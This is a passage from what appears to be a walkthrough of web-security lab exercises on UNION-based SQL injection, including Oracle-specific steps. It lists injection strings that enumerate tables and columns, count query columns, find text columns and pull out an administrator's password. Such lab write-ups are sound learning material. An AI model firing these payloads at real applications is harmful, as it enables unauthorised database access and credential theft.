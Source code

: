 Insert `'UNION SELECT TABLE_NAME, NULL FROM INFROMATION_SCHEMA.TABLES--` to find tables that could contain user information. 

Continue inserting `'UNION SELECT COLUMN_NAME, NULL FROM INFROMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users_qoecyz'--` to find names of data columns.

After querying, we found that the names of the two columns are `username_X` and `password_Y`.

Next, insert `'UNION SELECT password_Y, NULL FROM users_qoecyz 
WHERE username_X = 'administrator'--` to retrieve the password of the administrator.

## 6. SQL injection attack, listing the database contents on Oracle

Insert `'UNION SELECT 'a', 'b' FROM DUAL--` to determine the number of columns returned.

Insert `'UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES--` to find table names that contain user information.

Insert `'UNION SELECT COLUMN_NAME, NULL FROM 
ALL_TAB_COLUMNS WHERE TABLE_NAME = 'USERS_ELCPUF'--` to determine the column that contains usernames and user passwords. We can see that the two columns are `USERNAME_OTLSQB` and `PASSWORD_ALNMIB.`

Finally, after inserting `'UNION SELECT PASSWORD_ALNMIB, NULL FROM USERS_ELCPUF 
WHERE USERNAME_OTLSQB ='administrator'--` we can retrieve the administrator' password.

## 7. SQL injection UNION attack determining the number of columns returned by the query

We can insert `'UNION SELECT NULL, NULL, NULL--` or `'ORDER BY 3--` to find the columns returned. Increase the number of `NULL` select columns or the number of columns, respectively in the ordering. 

With `'UNION SELECT NULL, NULL, NULL--` returns an error if the number of select columns is not correct.

Using `'ORDER BY 3'` returns an error if the number of columns in the previous query is exceeded.

## 8. SQL injection UNION attack, finding a column containing text

Insert `'ORDER BY 3--` to determine the columns returned.

Try inserting one by one to identify the text return column:

`'UNION SELECT 'a', NULL, NULL--`

`'UNION SELECT NULL, 'a', NULL--`

`'UNION SELECT NULL, NULL, 'a'--`

`...`

## 9. SQL injection UNION attack, retrieving data from other tables

Insert `'ORDER BY 2--` to determine the comlumns returned.
